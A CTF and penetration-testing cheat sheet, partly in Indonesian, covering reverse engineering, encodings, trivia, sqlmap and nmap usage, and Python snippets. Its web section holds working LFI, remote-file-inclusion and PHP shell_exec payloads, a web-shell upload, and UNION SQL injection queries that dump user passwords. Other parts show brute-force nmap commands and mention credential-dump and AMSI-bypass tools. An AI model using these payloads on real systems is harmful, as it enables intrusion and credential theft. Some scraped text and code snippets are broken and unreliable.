--no-sign-requestavoids the need for credentials, and--recursivewill grab everything possible.
aws s3 cp --recursive --no-sign-request s3://<bucket_name> .
i. e. `aws s3 cp --recursive --no-sign-request s3://tamuctf .`
Reverse Engineering
-
Easy command-line tools to see some of the code being executed as you follow through a binary. Usage:
ltrace ./binary -
Hopper Disassembler, the reverse engineering tool that lets you disassemble, decompile and debug your applications.
-
Clean and easy with multithreaded analysis. Support multiple architectures, platforms, and compilers.
-
Fast and powerful debugger for UNIX system. More powerful if this tool is equipped with PEDA.
-
It's one of popular debugger and disassembler tool with rich of features, cross platform, multi-processor disassembler.
-
Portable tool for hex editor, binary analysis, disassembler, debugger, etc.
-
New RE tool developed by NSA with the same feature as IDA
-
Compiling & running ASM code:
You can convert ASM functions from assembly and run them as C functions like the following:
asm4.S.intel_syntax noprefix .global asm4 asm4: push ebp mov ebp,esp push ebx sub esp,0x10 mov DWORD PTR [ebp-0x10],0x27d mov DWORD PTR [ebp-0xc],0x0 jmp label2 label1: add DWORD PTR [ebp-0xc],0x1 label2: mov edx,DWORD PTR [ebp-0xc] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] test al,al jne label1 mov DWORD PTR [ebp-0x8],0x1 jmp label3 label4: mov edx,DWORD PTR [ebp-0x8] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] movsx edx,al mov eax,DWORD PTR [ebp-0x8] lea ecx,[eax-0x1] mov eax,DWORD PTR [ebp+0x8] add eax,ecx movzx eax,BYTE PTR [eax] movsx eax,al sub edx,eax mov eax,edx mov edx,eax mov eax,DWORD PTR [ebp-0x10] lea ebx,[edx+eax*1] mov eax,DWORD PTR [ebp-0x8] lea edx,[eax+0x1] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] movsx edx,al mov ecx,DWORD PTR [ebp-0x8] mov eax,DWORD PTR [ebp+0x8] add eax,ecx movzx eax,BYTE PTR [eax] movsx eax,al sub edx,eax mov eax,edx add eax,ebx mov DWORD PTR [ebp-0x10],eax add DWORD PTR [ebp-0x8],0x1 label3: mov eax,DWORD PTR [ebp-0xc] sub eax,0x1 cmp DWORD PTR [ebp-0x8],eax jl label4 mov eax,DWORD PTR [ebp-0x10] add esp,0x10 pop ebx pop ebp retasm4.c#include<stdio.h> extern int asm4(char* s); int main(){ char *str = "picoCTF_d899a"; printf("%X", asm4(str)); return 0; }bash$ gcc -m32 -o a asm4.c asm4.S $ ./a
PowerShell
-
A PowerShell suite of tools for pentesting. Has support for an ICMP reverse shell!
-
HUGE PowerShell library and tool to do a lot of post-exploitation.
-
Bypass AMSI Anti-Malware Scan Interface
Great tool and guide for anti-virus evasion with PowerShell.
Windows Executables
-
A Python module that examines the headers in a Windows PE (Portable Executable) file.
-
A Windows GUI tool to decompile and reverse engineer .NET binaries
-
A Windows tool to detect common packers, cryptors and compilers for Windows PE
-
jetBrains .NET decompiler
-
AutoIT converter
When debugging AutoIT programs, you may get a notification: "This is a compiled AutoIT script". Here is a good thing to use to decode them: https://www.autoitscript.com/site/autoit/downloads/
Python Reversing
-
A small
.exeGUI application that will "decompile" Python bytecode, often seen in.pycextension. The tool runs reliably on Linux with Wine. -
PyInstaller Extractor is a Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted. Usage is
python3 pyinstxtractor.py <filename>. We can later decompile the bytecode in.pycusing uncompyle6
Binary Exploitation/pwn
-
Basic Stack Overflow
Use
readelf -s <binary>to get the location of a function to jump to -- overflow in Python, find offset withdmesg, and jump. -
printfvulnerabilityA C binary vulnerability, where
printfis used with user-supplied input without any arguments. Hand-made code to exploit and overwrite functions: https://pastebin.com/0r4WGn3D and a video walkthrough explaining: https://www.youtube.com/watch?v=t1LH9D5cuK4 -
A good Python module to streamline exploiting a format string vulnerability. THIS IS NOT ALWAYS A GOOD TACTIC...
-
64-bit Buffer Overflow
64-bit buffer overflow challenges are often difficult because the null bytes get in the way of memory addresses (for the function you want to jump to, that you can usually find with
readelf -s). But, check if whether or not the function address you need starts with the same hex values already on the stack (inrsp). Maybe you only have to write two or three bytes after the overflow, rather than the whole function address.
Miscellaneous
-
Super useful repo that has a payload for basically every sceario
-
Punchcards(/Punch cards)
Sometimes it sucks to do these manually, but you can here: http://tyleregeto.com/article/punch-card-emulator
-
GameBoy ROMS
You have options to run GameBoy ROMs... one is using VisualBoyAdvance, the oher is RetroArch (which is supposedly better):
# VisualBoyAdvance
sudo add-apt-repository universe
sudo apt install visualboyadvance
# RetroArch
sudo add-apt-repository ppa:libretro/stable && sudo apt-get update && sudo apt-get install -y retroarch* libretro-*
-
References to DICE, or EFF
If your challenges references "EFF" or includes dice in some way, or showcases numbers 1-6 of length 5, try https://www.eff.org/dice. This could refer to a passphrase generated by dice rolls available here: https://www.eff.org/files/2016/07/18/eff_large_wordlist.txt
Base64:
TWFuIGlzIGRpc3Rpbmd1aXNoZWQsIG5vdCBvbmx5IGJ5IGhpcyByZWFzb24sIGJ1dCBieSB0aGlz
IHNpbmd1bGFyIHBhc3Npb24gZnJvbSBvdGhlciBhbmltYWxzLCB3aGljaCBpcyBhIGx1c3Qgb2Yg
dGhlIG1pbmQsIHRoYXQgYnkgYSBwZXJzZXZlcmFuY2Ugb2YgZGVsaWdodCBpbiB0aGUgY29udGlu
dWVkIGFuZCBpbmRlZmF0aWdhYmxlIGdlbmVyYXRpb24gb2Yga25vd2xlZGdlLCBleGNlZWRzIHRo
ZSBzaG9ydCB2ZWhlbWVuY2Ugb2YgYW55IGNhcm5hbCBwbGVhc3VyZS4=
Base32
ORUGS4ZANFZSAYLOEBSXQYLNOBWGKIDPMYQGEYLTMUZTELRANF2CA2LTEB3GS43JMJWGKIDCPEQGY33UOMQG6ZRAMNQXA2LUMFWCA3DFOR2GK4TTEBQW4ZBANVXXEZJAMVYXKYLMOMQHG2LHNZZSAZTPOIQHAYLEMRUW4ZZMEBSXQ5DSME======
Base85:
<~9jqo^BlbD-BleB1DJ+*+F(f,q/0JhKF<GL>Cj@.4Gp$d7F!,L7@<6@)/0JDEF<G%<+EV:2F!,
O<DJ+*.@<*K0@<6L(Df-\0Ec5e;DffZ(EZee.Bl.9pF"AGXBPCsi+DGm>@3BB/F*&OCAfu2/AKY
i(DIb:@FD,*)+C]U=@3BN#EcYf8ATD3s@q?d$AftVqCh[NqF<G:8+EV:.+Cf>-FD5W8ARlolDIa
l(DId<j@<?3r@:F%a+D58'ATD4$Bl@l3De:,-DJs`8ARoFb/0JMK@qB4^F!,R<AKZ&-DfTqBG%G
>uD.RTpAKYo'+CT/5+Cei#DII?(E,9)oF*2M7/c~>
Base91:
8D$J`/wC4!c.hQ;mT8,<p/&Y/H@$]xlL3oDg<W.0$FW6GFMo_D8=8=}AMf][|LfVd/<P1o/1Z2(.I+LR6tQQ0o1a/2/WtN3$3t[x&k)zgZ5=p;LRe.{B[pqa(I.WRT%yxtB92oZB,2,Wzv;Rr#N.cju"JFXiZBMf<WMC&$@+e95p)z01_*UCxT0t88Km=UQJ;WH[#F]4pE>i3o(g7=$e7R2u>xjLxoefB.6Yy#~uex8jEU_1e,MIr%!&=EHnLBn2h>M+;Rl3qxcL5)Wfc,HT$F]4pEsofrFK;W&eh#=#},|iKB,2,W]@fVlx,a<m;i=CY<=Hb%}+},F
-
Unicode characters encoding. Includes a lot of seemingly random spaces and chinese characters!
𤇃𢊻𤄻嶜𤄋𤇁𡊻𤄛𤆬𠲻𤆻𠆜𢮻𤆻ꊌ𢪻𤆻邌𤆻𤊻𤅋𤲥𣾻𤄋𥆸𣊻𤅛ꊌ𤆻𤆱炼綻𤋅𤅴薹𣪻𣊻𣽻𤇆𤚢𣺻赈𤇣綹𤻈𤇣𤾺𤇃悺𢦻𤂻𤅠㢹𣾻𤄛𤆓𤦹𤊻𤄰炜傼𤞻𢊻𣲻𣺻ꉌ邹𡊻𣹫𤅋𤇅𣾻𤇄𓎜𠚻𤊻𢊻𤉛𤅫𤂑𤃃𡉌𤵛𣹛𤁐𢉋𡉻𡡫𤇠𠞗𤇡𡊄𡒌𣼻燉𣼋𦄘炸邹㢸𠞻𠦻𡊻𣈻𡈻𣈛𡈛ꊺ𠆼𤂅𣻆𣫃𤮺𤊻𡉋㽻𣺬𣈛𡈋𤭻𤂲𣈻𤭻𤊼𢈛儛𡈛ᔺ
-
Mac / Macintosh / Apple Hidden Files
.DS_Storeds_store_expOn Mac computers, there is a hidden index file
.DS_Store. You might be able to find it if you have an LFI vulnerability or something of the like. A good tool to track these down on a website is the DS_Store Exposer: https://github.com/lijiejie/ds_store_exp. -
Wordsearches
Some CTFs have me solve wordsearchs as part of a challenge (TJCTF 2018). This code is super helpful: https://github.com/robbiebarrat/word-search
-
"Unflattening" Base64 in lowercase or uppercase
Some time ago we needed to recover the original Base64 string from one that is in all lowercase or all uppercase. Caleb wrote a good script to smartly do this: https://pastebin.com/HprZcHrY
-
Password-protected Zip Files:
fcrackzipandzip2john.pyUse
-
15 Puzzle
A sliding puzzle that consists of a 4x4 grid with numbered square tiles, with one missing, set in a random order. It was involved in SharifCTF to determine if a group of these puzzles was solvable: https://theromanxpl0it.github.io/ctf_sharifctf18/fifteenpuzzle/
-
SETUID Binary Methodology
Don't forget to check "simple" things --- it doesn't need to be a pwn or binary exploitation challenge, keep in mind IT DOES NOT use a secure PATH like
sudo. -
Chrome Password Dump
A Windows command-line tool to dump passwords saved with Google Chrome. http://securityxploded.com/chrome-password-dump.php
-
img2txtA command-line tool to convert an image into ASCII for the terminal. Can be installed like so:
sudo apt install -y caca-utils
-
Strange Symbols/Characters
Some CTFs will try and hide a message on a picture with strange symbols. Try and Google Reverse Image searching these. They may be Egyptian Characters:

-
Bitcoin
You might see a private Bitcoin key as a base64 encoded SHA256 hash, like this:
NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==
Decoded, it is a hash: `5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751`.
If you can find an AES ECB key along with (usually represented in hex or another encoding), you can decipher like so:
openssl enc -d -aes-256-ecb -in <(printf %s '5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751' | xxd -r -p) -K '6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077'
MCA{I$love$bitcoin$so$much!}
-
Missing
lsordircommandsIf you cannot run
lsordir, orfindorgrep, to list files you can use
echo *
echo /any/path/*
-
restricted bash (
rbash) read filesIf you are a restricted shell like
rbashyou can still read any file with some builtin commands likemapfile:
mapfile -t < /etc/passwd
printf "$s\n" "${anything[@]}"
Jail Breaks
Sometimes you're jailed in an environment where you can potentially execute code.
- Python 3
().__class__.__base__.__subclasses__()- Gives access toobjectsubclasses
Trivia
- Trivia Question: a reliable mechanism for websites to remember stateful information. Yummy!
Cookie
- A group of binary-to-text encoding schemes that represent binary data in an ASCII string format by translating it into a radix-64 representation
base64
- This CVE Proof of concept Shows NSA.gov playing "Never Gonna Give You Up," by 1980s heart-throb Rick Astley.
CVE-2020-0601
- The British used this machine to crack the German Enigma machine messages.
Bombe
- What is the Windows LM hash for a blank password?
aad3b435b51404eeaad3b435b51404ee
- for Windows LM hashing, after the password is split into two 7 character chunks, they are used as DES keys to encrypt what string?
KGS!@#$%
- I am the person responsible for stopping one of the worst ransomware. Who am I?
MalwareTech
- I am used by devices for sending error messages. Who am I?
ICMP
- We are a CTF team which is open to everybody. Who are we?
OpenToAll - https://opentoallctf.github.io/
contoh cracking CTF licence key
ada 2 kasus :
- compare langsung dengan key string
- compare dengan nilai int total key string
untuk kasus pertama, berarti tinggal dilihat sourcenya
untuk kasus kedua, dapat dengan
- mengganti nilai tujuan alamat (jump) ke alamat yang dituju
- menggunakan sourcecode python berikut
source code :
import random, sys, string
def check_key(key):
char_sum = 0
for c in key:
char_sum += ord(c)
sys.stdout.write("[0:1] | [1] \r".format(char_sum, key))
sys.stdout.flush()
return char_sum
key = ""
a = string.printable
while True:
key += random.choice(a)
s = check_key(key)
if s > 916:
key = ""
elif s == 916:
print "found valid key : [0]".format(key)CTF
- Web Security
- Reverse Engineering
- Binary Exploitation
- Cryprographi
- Forensic
- Steganography
Web Security
LFI & RCF
misal web dengan link
http://192.168.43.207/ipb/ipbScript/PHP-LFI/index.php?page=page3.php
...?page=page1.php
dapat diganti
...?page=/etc/passwd
...?page=/etc/passwd%00 (php kuno)
...?page=../../../../../../../../../etc/passwd
...?page=php://filter/convert.base64-encode/resource=index.php
...?page=php://filter/convert.base64-encode/resource=index
...?page=http://localhost/(file .txt)?
use terminal
curl -X "POST" -d "<?php echo shell_exec('cat /etc/passwd')?>" "http://192.168.43.207/ipb/ipbScript/PHP-LFI/index.php?page=php://input"
use pastebin.com
- new paste
- masukkan code
<pre> <?php echo "Tes RCE"; echo shell_exec("ls -la"); ?> </pre> - Paste expiration : 1 jam aja
- Create New Paste
- raw
- ambil link raw
...?page=http://pastebin.com/raw/(link)
File Upload
membuat file tes.php
<pre>
<?php
echo shell_exec("ls -la /");
?>
</pre>
menggunakan burp suit
edit type file
rename file ->
.php, .php3, .php4, .php5, .php7, .pht, .phtml
SQL Injection
y'--
y' OR 1=1 '--
misal url
192.168.43.207/ipb/ipbScript/blog/post.php?id=1
diganti
...id=999999999 UNION SELECT 1,2,3,..., (sampai pas)
cari nama data base :
...id=999999999 UNION SELECT 1,database(),3,user()
cari nama tabel :
...id=999999999 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
cari kolom tabel :
...id=999999999 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'user'
next
...id=999999999 UNION SELECT 1,username,3,password FROM user
...id=999999999 UNION SELECT 1,username,3,password FROM user LIMIT 0/1/2,1 (baris/kolom ke ...)
...id=999999999 UNION SELECT 1,group_concat(username),3,group_concat(password) FROM user
Kali Linux Tools
Beberapa tools yang mungkin bagus untuk dipakai
Information Gathering :
- arp-scan
- dnsenum
- nmap
- maltego
- 0trace
- ssldump
- sslh
- sslscan
- dmitry
- legion
- netdiscover
- recon-ng
- nikto
- wireshark
Vuln Analys :
- legion
- nmap
- lynis
WebApp Analys :
- burp suite
- owasp-zap
- sqlmap
- joomscan & wpscan
- nikto
Database Assessment :
- sqlmap
Password Attack :
- john the ripper
- medusa
- hydra
Wireless Attack :
- kismet
- aircrack-ng
- fern wifi cracker
Reverse :
- apktool
- jadx
- ollydbg
- radare2
- nasm
- ida
- ghidra
- hopper
Exploitation :
- armitage
- BeEF
- metasploit
- sqlmap
- social engineering toolkit
- msf payload creator
Sniffing Spoofing :
- wireshark
- mitmproxy
- macchanger
- yersina
Post Exploitation :
- backdoor factory
- powersploit
- proxychains
- proxytunnel
- sslh
Forensic :
- autopsy
- binwalk
- foremost
- pdfid
- pdf-parser
- affcat
- dc3dd
Tambahan :
- netcat
- traceroute
- whatweb
- whois
- dirbuster / dirb
- sqliv
- httrack
- findmyhash
- crunch
- fluxion
- bettercap
- Skipfish
- Nessus
- snort
- king phisher
sqlmap
sumber : https://www.youtube.com/user/inquisb/videos
demo 1 :
Extensively fingerprint the back-end database management system, enumerate banner, session user, current database, users, users's password hashes, database
sqlmap -u http://192.168.43.7/index.php?id=1 -f -b --current-user --current-db --users --password --dbs -v 0
- -u : target url
- -f : extensively fingerprint the back-end DBMS
- -b : retrieve DBMS banner
- --current-user : retrieve session user
- --current-db : retrieve current database
- --users : enumerate database users
- --password : enumerate database users's password hashes
- --dbs : enumerate available databases
- -v : output verbosity level (0, warning)
demo 2 :
Retrieve the database management system banner and enumerate the password hashes for the database session user via UNION query SQL injection
sqlmap -u "" -b --password -U CU --union-use -v 2
- -U : specify the database user (CU, alias for current user)
- --union-use : retrieve data via UNION query SQL inject, if possible
demo 3 :
Dump only from the second to the third entry of column surname of table users
sqlmap -u "" --dump -T users -C surname -D testdb --start 2 --stop 3 -v 2
- --dump : dumb table entries
- -T : table to dump
- -C : columns to dump
- --start : first entry to dump
- --stop : last entry to dump
demo 4 :
Enumerate and dump entries of all databases' tables containing only one or more columns specified by the user
sqlmap -u "" --dump -C 'user,pass' -v 1 --exclude-sysdbs
- --exclude-sysdbs : ignore system databases
demo 5 :
interactive SQL shell
sqlmap -u "" --sql-shell -v 2
- --sql-shell : spawn an interactive SQL shell
demo 6 :
sqlmap reads a file from the underlying file system and stores it locally
sqlmap -u "" --read-file "C:\example.txt" -v 2
- --read-file : file to read from the underlying file system
demo 7 :
sqlmap uploads a file from the local file system to the database server underlying file system and checks afterward for consistency
sqlmap -u "" --write-file /etc/passwd --dest-file /tmp/writetest -v 2
- --write-file : file to upload to the underlying file system(/etc/passwd)
- --dest-file : absolute file system path to write to(/tmp/writetest)
demo 8 :
Operating system command execution via user-defined function injection
sqlmap -u "" --os-cmd "id" -v 1
- --os-cmd : operating system command to execute(id)
demo 9 :
Interactive shell where the user can execute operating system commands via user-defined function injection
sqlmap -u "" --os-shell -v 1 --union-use
- --os-shell : spawn an inteactive command prompt
demo 1 :
sqlmap -u "" --os-pwn --msf-path /home/unquis/software/metasploit --priv-esc -v 1
- --os-pwn : establish an out-of-band connection between the user and the database server
- --msf-path : metasploit file system path
- --priv-esc : try to elevate the database process user privileges to SYSTEM
demo 1 :
sqlmap -u "" --os-bof -v 1 --msf-path ~/software/metasploit
- --os-bof : establish an out-of-band connection between the user and the database server by exploiting microsoft sql server buffer overflow
Tools
nmap
referensi :
- https://lms.onnocenter.or.id/wiki/index.php/Nmap
- https://noxtal.com/cheatsheets/2020/07/13/nmap-cheatsheet/
Beberapa intruksi bagus :
guide : nmap [Scan Type(s)] [Options] {target specification}
scan ip :
nmap $IP
scan host :
nmap hostname.com
scan range IP :
nmap 192.168.1.1-20
scan subnet
nmap 192.168.1.0/24
port selection : (single)
nmap -p 80 $IP
port selection : (most commond)
nmap -F $IP
port selection : (range)
nmap -p 1-100 $IP
port selection : (all)
nmap -p- $IP
scaning mesin :
nmap -v -sS -O 192.168.0.254
nmap –sV –O 192.168.12.120
nmap –Pn --script vuln 192.168.12.120
-v |
untuk verbose supaya banyak keluar informasi |
-sS |
scanning port dengan mengirim paket SYNC |
-O |
dicoba juga untuk menebak sitem operasi yang digunakan |
very verbose :
nmap -vv $IP
bypass firewall :
nmap -Pn $IP
default scan :
nmap -vv -sC -sV -oN nmap.log $IP
complete scan :
nmap -vv -A -p- -oN nmap-complete.log $IP
vulnerability scan :
nmap -vv --script vuln -oN nmap-vuln.log $IP
http scan :
nmap -vv --script http* -oN nmap-http.log $IP
mysql scan :
nmap -vv --script mysql* -oN nmap-mysql.log $IP
ftp scan :
nmap -vv --script ftp* -oN nmap-ftp.log $IP
smb scan :
nmap -vv --script smb* -oN nmap-smb.log $IP
ssh scan :
nmap -vv --script ssh* -oN nmap-ssh.log $IP
ip address information :
nmap --script=asn-query,whois,ip-geolocation-maxmind $IP
passing brute force :
nmap --script=ssh-brute --script-args userdb=usernames.lst,passwd=passwords.lst $IP
brute force ftp password :
nmap -p21 –script ftp-brute.nse –script-args userdb=rockyou.txt,passdb=rockyou.txt 192.168.1.105
brute force telnet password :
nmap -p23 --script telnet-brute.nse --script-args userdb=rockyou.txt,passdb=rockyou.txt 192.168.1.105
brute force smb password :
nmap --script smb-brute.nse -p445 192.168.0.7
nmap --script smb-brute.nse -p445 192.168.0.80
nmap -sU -sS --script smb-brute.nse -p U:137,T:139 192.168.0.80
nmap –p445 –script smb-brute.nse –script-args userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105
brute force mysql : *masih ada catatan
nmap --script=mysql-brute <target>
nmap -sT -p3306 --script mysql-brute.nse --script-args userdb=/root/user.txt --script-trace 192.168.0.100
nmap -sT -p3306 --script mysql-brute.nse --script-args userdb=/root/user.txt,passdb=/root/pass.txt --script-trace 192.168.0.100
Python
- Some python import and using
- RSA
- Python PIL
- Urllib
Some python import and using
import string
import hashlib
import base64
import itertools
import collections
import os
import sys
import pwn
import random
import onetimepad
print "==========upper lower=========="
nama = "SYAHRUL"
namaB = "aulia"
namaKecil = nama.lower()
namaBesar = namaB.upper()
print namaKecil
print namaBesar
print "==========replace=========="
flag = "flagCTF{apa_yaaaa{{{}}}}"
flag = flag.replace('{', '')
print flag
print "==========string=========="
a = string.punctuation
b = string.digits
c = string.ascii_lowercase
# d = string.lowercase
e = string.ascii_uppercase
# f = string.uppercase
print a
print b
print c
print e
print "==========cycle=========="
cycler = "syahrul"
cycler = itertools.cycle(cycler)
cycler_new = [cycler.next() for _ in range(20)]
print ''.join(cycler_new)
print "==========index alphabet=========="
lwc = string.lowercase.index('s') # s lowercase
print lwc
print "==========collections=========="
collLwc = collections.deque(string.lowercase)
print collLwc
collLwc.rotate(1)
print collLwc
collLwc_new = ''.join(collLwc)
print collLwc_new
print type(collLwc_new)
collLwc_new = ''.join(list(collLwc))
print collLwc_new
print type(collLwc_new)
print "==========permutations=========="
for p in itertools.permutations([1,2,4,'s'],4):
print p
print "==========hashlib=========="
mau_encode = "5Y4hRuL"
encode1 = base64.b64encode(mau_encode)
encode2 = hashlib.sha256()
encode2.update(mau_encode)
encode2 = encode2.hexdigest()
encode3 = hashlib.sha1()
encode3.update(mau_encode)
encode3 = encode3.hexdigest()
encode4 = hashlib.md5()
encode4.update(mau_encode)
encode4 = encode4.hexdigest()
print encode1
print encode2
print encode3
print encode4
print "==========string to list=========="
a = "12, 32, 4, 5, 56, 76"
a = a.split(',')
lst.sort(key = int)
print a
text = 'a,b,c'
text = eval('[' + text + ']')
print text
RSA
# tambahan dr http://www.factordb.com/
def egcd(a, b):
if a == 0:
return (b,0,1)
else:
g,y,x = egcd(b%a, a)
return (g, x-(b//a)*y, y)
def modinv(a, m):
g,x,y = egcd(a, m)
if g != 1:
raise Exception('modular inverse does not exist')
else:
return (x%m)
print '1.\n','4636878989'
print '2.\n','93089'
print '3.\n','n'
print '4.\n','836623060'
print '5.'
print pow(6357294171489311547190987615544575133581967886499484091352661406414044440475205342882841236357665973431462491355089413710392273380203038793241564304774271529108729717,3,29129463609326322559521123136222078780585451208149138547799121083622333250646678767769126248182207478527881025116332742616201890576280859777513414460842754045651093593251726785499360828237897586278068419875517543013545369871704159718105354690802726645710699029936754265654381929650494383622583174075805797766685192325859982797796060391271817578087472948205626257717479858369754502615173773514087437504532994142632207906501079835037052797306690891600559321673928943158514646572885986881016569647357891598545880304236145548059520898133142087545369179876065657214225826997676844000054327141666320553082128424707948750331)
print '6.\n n'
print '7.'
q = 92092076805892533739724722602668675840671093008520241548191914215399824020372076186460768206814914423802230398410980218741906960527104568970225804374404612617736579286959865287226538692911376507934256844456333236362669879347073756238894784951597211105734179388300051579994253565459304743059533646753003894559
p = 97846775312392801037224396977012615848433199640105786119757047098757998273009741128821931277074555731813289423891389911801250326299324018557072727051765547115514791337578758859803890173153277252326496062476389498019821358465433398338364421624871010292162533041884897182597065662521825095949253625730631876637
e = 65537
d = modinv(e,(p-1)(q-1))
print d
p = 153143042272527868798412612417204434156935146874282990942386694020462861918068684561281763577034706600608387699148071015194725533394126069826857182428660427818277378724977554365910231524827258160904493774748749088477328204812171935987088715261127321911849092207070653272176072509933245978935455542420691737433
ciphertext = 18031488536864379496089550017272599246134435121343229164236671388038630752847645738968455413067773166115234039247540029174331743781203512108626594601293283737392240326020888417252388602914051828980913478927759934805755030493894728974208520271926698905550119698686762813722190657005740866343113838228101687566611695952746931293926696289378849403873881699852860519784750763227733530168282209363348322874740823803639617797763626570478847423136936562441423318948695084910283653593619962163665200322516949205854709192890808315604698217238383629613355109164122397545332736734824591444665706810731112586202816816647839648399
e = 65537
n = 23952937352643527451379227516428377705004894508566304313177880191662177061878993798938496818120987817049538365206671401938265663712351239785237507341311858383628932183083145614696585411921662992078376103990806989257289472590902167457302888198293135333083734504191910953238278860923153746261500759411620299864395158783509535039259714359526738924736952759753503357614939203434092075676169179112452620687731670534906069845965633455748606649062394293289967059348143206600765820021392608270528856238306849191113241355842396325210132358046616312901337987464473799040762271876389031455051640937681745409057246190498795697239
d = modinv(e,(p-1)(n/p-1))
print '8.\n', pow(ciphertext,d,n)
Python PIL
# the idea is converting the image to vertical position
from PIL import Image
gambar_asli = Image.open("out-copy.jpg")
data_gambar_asli = gambar_asli.load()
print(gambar_asli.size)
# width = 27968
# height = 1
# print(type(size))
width = 304
height = 92
gambar_baru = Image.new('RGB',(width,height))
data_gambar_baru = gambar_baru.load()
i = 0
for x in range(width):
for y in range(height):
# try:
data_gambar_baru[x,y] = data_gambar_asli[i,0]
i += 1
# except:
# break
gambar_baru.save("gambar_baru3.jpg")
gambar_baru.show()
Urllib
Request Method :
| delete(url, args) |
Sends a DELETE request to the specified url |
| get(url, params, args) |
Sends a GET request to the specified url |
| head(url, args) |
Sends a HEAD request to the specified url |
| patch(url, data, args) |
Sends a PATCH request to the specified url |
| post(url, data, json, args) |
Sends a POST request to the specified url |
| put(url, data, args) |
Sends a PUT request to the specified url |
| request(method, url, args) |
Sends a request of the specified method to the specified url |
Some args :
| url |
Required. The url of the request |
| data |
Optional. A dictionary, list of tuples, bytes or a file object to send to the specified url |
| json |
Optional. A JSON object to send to the specified url |
| files |
Optional. A dictionary of files to send to the specified url |
| allow_redirects |
Optional. A Boolean to enable/disable redirection. Default True (allowing redirects) |
| auth |
Optional. A tuple to enable a certain HTTP authentication. Default None |
| cert |
Optional. A String or Tuple specifying a cert file or key. Default None |
| cookies |
Optional. A dictionary of cookies to send to the specified url. Default None |
| headers |
Optional. A dictionary of HTTP headers to send to the specified url. Default None |
| proxies |
Optional. A dictionary of the protocol to the proxy url. Default None |
| stream |
Optional. A Boolean indication if the response should be immediately downloaded (False) or streamed (True). Default False |
| timeout |
Optional. A number, or a tuple, indicating how many seconds to wait for the client to make a connection and/or send a response. Default None which means the request will continue until the connection is closed |
| verify |
Optional. A Boolean or a String indication to verify the servers TLS certificate or not. Default True |
Post Method :
requests.post(url, data={key: value}, json={key: value}, args) requests.post(url, data = myobj, timeout=2.50)url diganti saja, dibawah ini cuman contoh url
# in python2 use urllib2
import urllib.request
import urllib.parse
import urllib.robotparser
from urllib.parse import * parse_url = urlparse('https://www.geeksforgeeks.org / python-langtons-ant/')
# BEGINNER -------------------------------
import requests
x = requests.get('https://w3schools.com/python/demopage.htm')
print(x.text)
# -------------------------------
# delete(url, args) Sends a DELETE request to the specified url
# get(url, params, args) Sends a GET request to the specified url
# head(url, args) Sends a HEAD request to the specified url
# patch(url, data, args) Sends a PATCH request to the specified url
# post(url, data, json, args) Sends a POST request to the specified url
# put(url, data, args) Sends a PUT request to the specified url
# request(method, url, args) Sends a request of the specified method to the specified url
request_url = urllib.request.urlopen('http://timesink.be/speedy/')
print(request_url.read())
print(parse_url)
print("\n")
unparse_url = urlunparse(parse_url)
print(unparse_url)
bot = rb.RobotFileParser()
# checks where the website's robot.txt file reside
x = bot.set_url('https://www.geeksforgeeks.org / robot.txt')
print(x)
# reads the files
y = bot.read()
print(y)
# we can crawl the main site
z = bot.can_fetch('*', 'https://www.geeksforgeeks.org/')
print(z)
# but can not crawl the disallowed url
w = bot.can_fetch('*', 'https://www.geeksforgeeks.org / wp-admin/')
print(w)
print('Headers: ---------------------')
print(request_url.getheaders())
# print the actual response data
print('Returned data: ---------------------')
print(request_url.read().decode('utf-8'))
# ARGS PAYLOAD -------------------------------
url = 'http://httpbin.org/get'
# define sample data to pass to the GET request
args = {
'color': 'Blue',
'shape': 'Circle',
'is_active': True
}
# url-encoded data before passing as arguments
data = urllib.parse.urlencode(args)
# issue the request with the data params as part of the URL
result = urllib.request.urlopen(url + '?' + data)
print('Result code: {0}'.format(result.status))
print('Returned data: ----------------------')
print(result.read().decode('utf-8'))
# POST REQS -------------------------------
url = 'http://httpbin.org/post'
# define sample data to pass to the GET request
args = {
'color': 'Blue',
'shape': 'Circle',
'is_active': True
}
# url-encoded data before passing as arguments
data = urllib.parse.urlencode(args)
data = data.encode()
result = urllib.request.urlopen(url, data=data)
print('Result code: {0}'.format(result.status))
print('Returned data: ----------------------')
print(result.read().decode('utf-8'))
# ERROR HANDLING -------------------------------
from urllib.error import HTTPError, URLError
from http import HTTPStatus
url = 'http://httpbin.org/html'
# wrap the web request in a try catch block
try:
result = urllib.request.urlopen(url)
print('Result code: {0}'.format(result.status))
if (result.getcode() == HTTPStatus.OK):
print(result.read().decode('utf-8'))
# happens on a non-success error code
except HTTPError as err:
print('There was an HTTP Error with code: {0}'.format(err.code))
# happens when there is something wrong with the URL itself
except URLError as err:
print('There has been a catastrophic failure. {0}'.format(err.reason))
# Atau
url = 'http://i-dont-exist.org/'
# wrap the web request in a try catch block
try:
result = urllib.request.urlopen(url)
print('Result code: {0}'.format(result.status))
if (result.getcode() == HTTPStatus.OK):
print(result.read().decode('utf-8'))
# happens on a non-success error code
except HTTPError as err:
print('There was an HTTP Error with code: {0}'.format(err.code))
# happens when there is something wrong with the URL itself
except URLError as err:
print('There has been a catastrophic failure. {0}'.format(err.reason))
Curl
curl [options] [URL...]
standar :
curl "http://blablabla.com"
save to file :
curl -o tes.txt "http://halo.com"
curl -O "http://halo.com"
show header :
curl -I "http://halo.com"
ganti user agent :
curl -A "haloo web browser" -v "http://halo.com"
kirim form :
curl -X "POST" -d "username=admin&password=pass" "http://halo.com/index.php?id=10"
cookie :
curl --cookie "name=Daniel" http://www.example.com
sumber https://lms.onnocenter.or.id/wiki/index.php/Tcpdump
Tcpdump
apt-get install tcpdump
Perintah yang menangkap packet, misalnya:
tcpdump -i eth0
